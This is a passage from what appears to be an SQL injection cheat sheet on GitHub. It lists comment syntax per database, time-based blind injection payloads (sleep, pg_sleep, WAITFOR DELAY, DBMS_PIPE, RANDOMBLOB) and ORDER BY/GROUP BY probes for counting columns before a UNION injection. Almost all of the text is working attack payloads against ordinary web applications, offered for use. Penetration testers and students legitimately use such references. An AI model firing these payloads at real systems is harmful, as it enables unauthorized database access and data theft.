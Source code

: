 ```console
MSQL
--comment
/*comment*/
================================================================================
Oracle
--comment
================================================================================
SQLite
--comment
/*comment*/
================================================================================
HQL
HQL does not support comments
```
## Confirming with Timing
In some cases you won't notice any change on the page you are testing. Therefore, a good way to discover blind SQL injections is making the DB perform actions and will have an impact on the time the page need to load.
```console
MySQL (string concat and logical ops)
1' + sleep(10)
1' and sleep(10)
1' && sleep(10)
1' | sleep(10)
================================================================================
PostgreSQL (only support string concat)
1' || pg_sleep(10)
================================================================================
MSQL
1' WAITFOR DELAY '0:0:10'
================================================================================
Oracle
1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)
================================================================================
SQLite
1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```
## Exploiting Union Based
To find out the number of columns of the current table, there are two ways, use **UNION** or **ORDER BY**
### Order/Group by
Keep incrementing the number until you get a False response. Even though GROUP BY and ORDER BY have different functionality in SQL, they both can be used in the exact same fashion to determine the number of columns in the query.
```console
1' ORDER BY 1-- -;    #True
or
1' ORDER BY 1--+    #True
1' ORDER BY 2--+    #True
1' ORDER BY 3--+    #True
1' ORDER BY 4--+    #False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+    True
```
```console
1' GROUP BY 1--+    #True
1' GROUP BY 2--+    #True
1' GROUP BY 3--+    #True
1' GROUP BY 4--+    #False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+    True
```